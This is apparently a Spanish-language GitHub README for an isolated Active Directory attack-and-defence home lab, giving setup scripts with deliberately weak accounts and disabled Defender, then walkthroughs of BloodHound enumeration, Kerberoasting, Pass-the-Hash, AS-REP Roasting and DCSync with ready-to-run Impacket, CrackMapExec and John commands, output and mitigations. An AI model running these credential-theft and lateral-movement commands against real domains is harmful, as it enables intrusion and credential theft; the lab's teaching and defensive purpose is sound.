


# Active Directory Home Lab 🏴
 
Entorno de laboratorio virtualizado para practicar técnicas de ataque y defensa sobre Active Directory.  
Montado íntegramente en local con VMware Workstation — entorno 100% aislado, sin sistemas reales implicados.
 
> ⚠️ **Disclaimer:** Este proyecto es exclusivamente educativo. Todas las técnicas documentadas se ejecutan únicamente en este entorno controlado. Nunca apliques estas técnicas en sistemas sin autorización expresa y por escrito.
 
---
 
## Índice
 
1. [Objetivo del proyecto](#-objetivo-del-proyecto)
2. [Arquitectura del laboratorio](#️-arquitectura-del-laboratorio)
3. [Usuarios del laboratorio](#-usuarios-del-laboratorio)
4. [Setup paso a paso](#️-setup-paso-a-paso)
   - [Fase 1 — Domain Controller](#fase-1--domain-controller-win-dc01)
   - [Fase 2 — Clientes Windows 10](#fase-2--clientes-windows-10)
   - [Fase 3 — Kali Linux](#fase-3--kali-linux)
5. [Ataques documentados](#️-ataques-documentados)
   - [Enumeración con BloodHound](#-enumeración-con-bloodhound)
   - [Kerberoasting](#-kerberoasting)
   - [Pass-the-Hash](#-pass-the-hash)
   - [AS-REP Roasting](#-as-rep-roasting)
   - [DCSync](#-dcsync)
6. [Resumen de mitigaciones](#️-resumen-de-mitigaciones)
7. [Referencias](#-referencias)
 
---
 
## 🎯 Objetivo del proyecto
 
Lab montado para aprender y documentar técnicas ofensivas reales sobre Active Directory.  
Cada ataque incluye el **razonamiento detrás de cada decisión**, los comandos ejecutados, el resultado obtenido y su mitigación correspondiente.
 
El objetivo no es solo llegar a Domain Admin — es entender **por qué funciona cada ataque** y qué lo hace detectable o defendible.
 
---
 
## 🗺️ Arquitectura del laboratorio
 
```
┌──────────────────────────────────────────────────────┐
│           VMnet2 — 192.168.100.0/24                  │
│                (Host-only · Aislada)                 │
│                                                      │
│  ┌─────────────────────┐   ┌──────────────────────┐  │
│  │  WIN-DC01           │   │  Kali Linux          │  │
│  │  Windows Server 2022│   │  192.168.100.50      │  │
│  │  192.168.100.10     │   │  (atacante)          │  │
│  │  AD DS · DNS · DHCP │   │                      │  │
│  └─────────────────────┘   └──────────────────────┘  │
│                                                      │
│  ┌──────────────────┐   ┌──────────────────────────┐ │
│  │  WIN-PC01        │   │  WIN-PC02                │ │
│  │  Windows 10      │   │  Windows 10              │ │
│  │  192.168.100.21  │   │  192.168.100.22          │ │
│  │  (víctima 1)     │   │  (víctima 2)             │ │
│  └──────────────────┘   └──────────────────────────┘ │
└──────────────────────────────────────────────────────┘
```
 
| VM | OS | IP | RAM | Rol |
|---|---|---|---|---|
| WIN-DC01 | Windows Server 2022 | 192.168.100.10 | 3 GB | Domain Controller, DNS, DHCP |
| WIN-PC01 | Windows 10 | 192.168.100.21 | 2.5 GB | Cliente unido al dominio |
| WIN-PC02 | Windows 10 | 192.168.100.22 | 2.5 GB | Cliente unido al dominio |
| Kali Linux | Kali Linux 2024.x | 192.168.100.50 | 4 GB | Máquina atacante |
 
**Dominio:** `lab.local` · **NetBIOS:** `LAB` · **Red:** VMware Host-only (VMnet2)
 
---
 
## 👤 Usuarios del laboratorio
 
| Usuario | Contraseña | Rol | Vulnerabilidad |
|---|---|---|---|
| Administrator | P@ssw0rd123! | Domain Admin | — |
| jsmith | Password1 | Usuario estándar | Contraseña débil |
| mjohnson | Summer2023! | Usuario estándar | Contraseña débil |
| svc-sql | MYpassword123# | Service Account | Kerberoastable (SPN registrado) |
| localadmin | P@ssw0rd123! | Domain Admin | Pass-the-Hash / DCSync |
| asrepuser | Welcome1! | Usuario estándar | AS-REP Roastable (pre-auth desactivada) |
 
---
 
## ⚙️ Setup paso a paso
 
### Fase 1 — Domain Controller (WIN-DC01)
 
#### Red — IP estática
 
```powershell
New-NetIPAddress -InterfaceAlias "Ethernet0" -IPAddress 192.168.100.10 -PrefixLength 24 -DefaultGateway 192.168.100.1
Set-DnsClientServerAddress -InterfaceAlias "Ethernet0" -ServerAddresses 192.168.100.10
```
 
#### Instalar y promover AD DS
 
```powershell
Install-WindowsFeature -Name AD-Domain-Services -IncludeManagementTools
 
Install-ADDSForest `
  -DomainName "lab.local" `
  -DomainNetbiosName "LAB" `
  -ForestMode "WinThreshold" `
  -DomainMode "WinThreshold" `
  -InstallDns:$true `
  -SafeModeAdministratorPassword (ConvertTo-SecureString "P@ssw0rd123!" -AsPlainText -Force) `
  -Force:$true
```
 
#### Configurar DHCP
 
```powershell
Install-WindowsFeature -Name DHCP -IncludeManagementTools
Add-DhcpServerInDC -DnsName "WIN-DC01.lab.local" -IPAddress 192.168.100.10
Add-DhcpServerv4Scope -Name "Lab Network" -StartRange 192.168.100.100 -EndRange 192.168.100.200 -SubnetMask 255.255.255.0 -State Active
Set-DhcpServerv4OptionValue -ScopeId 192.168.100.0 -Router 192.168.100.1 -DnsServer 192.168.100.10 -DnsDomain "lab.local"
Add-DhcpServerv4ExclusionRange -ScopeId 192.168.100.0 -StartRange 192.168.100.1 -EndRange 192.168.100.99
```
 
#### Crear usuarios vulnerables
 
```powershell
New-ADOrganizationalUnit -Name "Lab Users" -Path "DC=lab,DC=local"
New-ADOrganizationalUnit -Name "Service Accounts" -Path "DC=lab,DC=local"
 
New-ADUser -Name "John Smith" -SamAccountName "jsmith" -UserPrincipalName "jsmith@lab.local" `
  -Path "OU=Lab Users,DC=lab,DC=local" `
  -AccountPassword (ConvertTo-SecureString "Password1" -AsPlainText -Force) `
  -Enabled $true -PasswordNeverExpires $true
 
New-ADUser -Name "Mary Johnson" -SamAccountName "mjohnson" -UserPrincipalName "mjohnson@lab.local" `
  -Path "OU=Lab Users,DC=lab,DC=local" `
  -AccountPassword (ConvertTo-SecureString "Summer2023!" -AsPlainText -Force) `
  -Enabled $true -PasswordNeverExpires $true
 
# Service account con SPN — vulnerable a Kerberoasting
New-ADUser -Name "SQL Service" -SamAccountName "svc-sql" -UserPrincipalName "svc-sql@lab.local" `
  -Path "OU=Service Accounts,DC=lab,DC=local" `
  -AccountPassword (ConvertTo-SecureString "MYpassword123#" -AsPlainText -Force) `
  -Enabled $true -PasswordNeverExpires $true
setspn -A MSSQLSvc/WIN-DC01.lab.local:1433 LAB\svc-sql
setspn -A MSSQLSvc/WIN-DC01:1433 LAB\svc-sql
 
# Admin de dominio — vulnerable a Pass-the-Hash y DCSync
New-ADUser -Name "Local Admin" -SamAccountName "localadmin" -UserPrincipalName "localadmin@lab.local" `
  -Path "OU=Lab Users,DC=lab,DC=local" `
  -AccountPassword (ConvertTo-SecureString "P@ssw0rd123!" -AsPlainText -Force) `
  -Enabled $true -PasswordNeverExpires $true
Add-ADGroupMember -Identity "Admins. del dominio" -Members "localadmin"
 
# Usuario sin pre-autenticación Kerberos — vulnerable a AS-REP Roasting
New-ADUser -Name "AS Rep User" -SamAccountName "asrepuser" -UserPrincipalName "asrepuser@lab.local" `
  -Path "OU=Lab Users,DC=lab,DC=local" `
  -AccountPassword (ConvertTo-SecureString "Welcome1!" -AsPlainText -Force) `
  -Enabled $true -PasswordNeverExpires $true
Set-ADAccountControl -Identity "asrepuser" -DoesNotRequirePreAuth $true
```
 


*IP estática asignada al DC — 192.168.100.10*
 


*lab.local promovido correctamente*
 


*Servicios del DC sin errores*
 


*Scope DHCP activo — rango 192.168.100.100-200*
 


*Service account con SPN registrado — objetivo Kerberoasting*
 


*Usuarios del laboratorio creados y habilitados*
 
---
 
### Fase 2 — Clientes Windows 10
 
```powershell
# WIN-PC01
New-NetIPAddress -InterfaceAlias "Ethernet0" -IPAddress 192.168.100.21 -PrefixLength 24 -DefaultGateway 192.168.100.1
Set-DnsClientServerAddress -InterfaceAlias "Ethernet0" -ServerAddresses 192.168.100.10
 
# WIN-PC02
New-NetIPAddress -InterfaceAlias "Ethernet0" -IPAddress 192.168.100.22 -PrefixLength 24 -DefaultGateway 192.168.100.1
Set-DnsClientServerAddress -InterfaceAlias "Ethernet0" -ServerAddresses 192.168.100.10
 
# Unir al dominio (en cada cliente)
Add-Computer -DomainName "lab.local" -Credential (Get-Credential) -Restart
 
# Añadir localadmin como admin local
Add-LocalGroupMember -Group "Administradores" -Member "LAB\localadmin"
 
# Deshabilitar Firewall y Defender para el lab
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False
Set-MpPreference -DisableRealtimeMonitoring $true
```
 


*DC01, PC01 y PC02 registrados en el dominio*
 
---
 
### Fase 3 — Kali Linux
 
```bash
echo "nameserver 192.168.100.10" | sudo tee /etc/resolv.conf
 
ping -c 3 192.168.100.10
nslookup lab.local 192.168.100.10
```
 


*Conectividad con WIN-DC01 confirmada*
 
---
 
## ⚔️ Ataques documentados
 
| Técnica | Herramienta | Estado |
|---|---|---|
| Enumeración AD | BloodHound CE + bloodhound-python | ✅ Completado |
| Kerberoasting | Impacket GetUserSPNs + John the Ripper | ✅ Completado |
| Pass-the-Hash | Impacket secretsdump + CrackMapExec | ✅ Completado |
| AS-REP Roasting | Impacket GetNPUsers + John the Ripper | ✅ Completado |
| DCSync | Impacket secretsdump | ✅ Completado |
 
---
 
## 🔍 Enumeración con BloodHound
 
### Por qué empiezo aquí
 
Antes de lanzar cualquier ataque necesito saber qué hay en el dominio: qué usuarios existen, qué permisos tienen, qué máquinas están activas y qué rutas llevan a Domain Admin. Sin esta fase estoy atacando a ciegas.
 
BloodHound resuelve esto mapeando todas las relaciones del dominio en un grafo visual. Una vez importados los datos puedo hacer queries para identificar exactamente qué cuentas son atacables y cuál es el camino más corto hacia los privilegios máximos.
 
### Proceso de investigación
 
Lo primero que me pregunto es: **¿con qué credenciales puedo recopilar datos?** bloodhound-python necesita un usuario del dominio válido, pero no hace falta que sea administrador. Uso `jsmith` con contraseña débil — un usuario estándar que en un entorno real podría haberse obtenido mediante password spraying o phishing.
 
El flag `-c all` le dice al colector que recopile todo: usuarios, grupos, equipos, GPOs, sesiones activas y ACLs. Más datos significa mejor mapa de ataque.
 
```bash
bloodhound-python \
  -u jsmith \
  -p 'Password1' \
  -d lab.local \
  -ns 192.168.100.10 \
  -c all \
  --zip
```
 
Una vez importado el ZIP en BloodHound CE, ejecuto la query de cuentas Kerberoastables:
 
```cypher
MATCH (u:User {hasspn:true}) RETURN u
```
 
### Resultado
 
```
SVC-SQL@LAB.LOCAL  → Kerberoastable
KRBTGT@LAB.LOCAL   → Kerberoastable (no explotable en la práctica)
```
 


*bloodhound-python recopila 3 equipos, 8 usuarios y 52 grupos*
 


*Dominio LAB.LOCAL mapeado en BloodHound CE*
 


*Query Cypher identifica SVC-SQL como objetivo Kerberoastable*
 
### Mitigación
 
- Principio de mínimo privilegio — revisar ACLs del dominio regularmente
- Limitar consultas LDAP masivas desde un único origen
- Monitorizar actividad LDAP anómala (eventos 1644 en el DC)
 
---
 
## 🎯 Kerberoasting
 
### Por qué es posible este ataque
 
Kerberos permite que cualquier usuario autenticado del dominio solicite un TGS para cualquier cuenta con SPN registrado. El ticket llega cifrado con el hash NTLM de esa service account y se puede crackear offline sin límite de intentos ni alertas en el DC.
 
### Proceso de investigación
 
```bash
impacket-GetUserSPNs lab.local/jsmith:'Password1' \
  -dc-ip 192.168.100.10 \
  -request \
  -outputfile kerberoast.hash
 
john --format=krb5tgs \
  --wordlist=/usr/share/wordlists/rockyou.txt \
  kerberoast.hash
```
 
### Resultado
 
```
svc-sql : MYpassword123#
```
 


*TGS de svc-sql obtenido con credenciales de usuario estándar*
 


*John the Ripper crackea MYpassword123# en segundos*
 
### Mitigación
 
- Contraseñas de más de 25 caracteres aleatorios en todas las service accounts
- Usar **Group Managed Service Accounts (gMSA)**
- Auditar cuentas con SPN: `Get-ADUser -Filter {ServicePrincipalName -ne "$null"}`
 
---
 
## 🔑 Pass-the-Hash
 
### Por qué es posible este ataque
 
Windows almacena credenciales como hashes NTLM en memoria (LSASS). NTLM acepta el hash directamente como autenticación sin necesitar la contraseña en texto claro.
 
### Proceso de investigación
 
```bash
impacket-secretsdump lab.local/localadmin:'P@ssw0rd123!'@192.168.100.10
 
crackmapexec smb 192.168.100.0/24 \
  -u localadmin \
  -H 7dfa0531d73101ca080c7379a9bff1c7
```
 
### Resultado
 
```
192.168.100.10  [+] lab.local\localadmin (Pwn3d!)
192.168.100.21  [+] lab.local\localadmin (Pwn3d!)
192.168.100.22  [+] lab.local\localadmin (Pwn3d!)
```
 


*Hashes NTLM de todos los usuarios del dominio extraídos*
 


*Acceso como Domain Admin sin contraseña — Pwn3d!*
 
### Mitigación
 
- Deshabilitar NTLM donde sea posible y forzar Kerberos
- Activar **Windows Defender Credential Guard**
- Implementar **LAPS** para contraseñas de admin local únicas por máquina
- **Protected Users Security Group** para cuentas privilegiadas
 
---
 
## 👻 AS-REP Roasting
 
### Por qué es posible este ataque
 
Sin pre-autenticación Kerberos habilitada, cualquiera puede solicitar un AS-REP cifrado con la contraseña del usuario sin necesitar ninguna credencial del dominio.
 
### Proceso de investigación
 
```bash
impacket-GetNPUsers lab.local/asrepuser \
  -dc-ip 192.168.100.10 \
  -no-pass \
  -format john \
  -outputfile asrep.hash
 
john asrep.hash --wordlist=/usr/share/wordlists/rockyou.txt
```
 
### Resultado
 
```
asrepuser : Welcome1!
```
 


*Hash obtenido sin ninguna credencial del dominio*
 


*Welcome1! crackeado con John the Ripper*
 
### Mitigación
 
- Forzar pre-autenticación Kerberos en todos los usuarios sin excepción
- Auditar periódicamente: `Get-ADUser -Filter {DoesNotRequirePreAuth -eq $true}`
 
---
 
## 💀 DCSync
 
### Por qué es posible este ataque
 
Si una cuenta tiene permisos de replicación de directorio puede simular ser un DC y pedirle al DC real todos los hashes del dominio, incluyendo Administrator y krbtgt.
 
### Proceso de investigación
 
```bash
# DCSync completo
impacket-secretsdump lab.local/localadmin:'P@ssw0rd123!'@192.168.100.10 \
  -just-dc
 
# Hash de krbtgt — base para Golden Ticket
impacket-secretsdump lab.local/localadmin:'P@ssw0rd123!'@192.168.100.10 \
  -just-dc-user krbtgt
```
 
### Resultado
 
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:<NTLM_HASH>:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:<NTLM_HASH>:::
```
 


*Replicación completa del dominio — todos los hashes extraídos*
 


*Hash de krbtgt obtenido — base para Golden Ticket*
 
### Mitigación
 
- Auditar y restringir permisos de replicación
- Monitorizar eventos **4662** en el log de seguridad del DC
- Si se detecta DCSync: rotar el hash de `krbtgt` **dos veces** seguidas
 
---
 
## 🛡️ Resumen de mitigaciones
 
| Ataque | Mitigación principal |
|---|---|
| Enumeración BloodHound | Mínimo privilegio · Limitar LDAP · Evento 1644 |
| Kerberoasting | Contraseñas +25 chars · Usar gMSA |
| Pass-the-Hash | Deshabilitar NTLM · Credential Guard · LAPS |
| AS-REP Roasting | Forzar pre-autenticación en todos los usuarios |
| DCSync | Restringir replicación · Evento 4662 · Rotar krbtgt x2 |
 
---
 
## 📚 Referencias
 
- [HackTricks — Active Directory Methodology](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology)
- [Impacket — GitHub](https://github.com/fortra/impacket)
- [BloodHound CE — GitHub](https://github.com/SpecterOps/BloodHound)
- [PayloadsAllTheThings — AD Attacks](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md)
- [TarlogicSecurity — Kerberos Cheatsheet](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)
- [CrackMapExec Wiki](https://wiki.porchetta.industries)
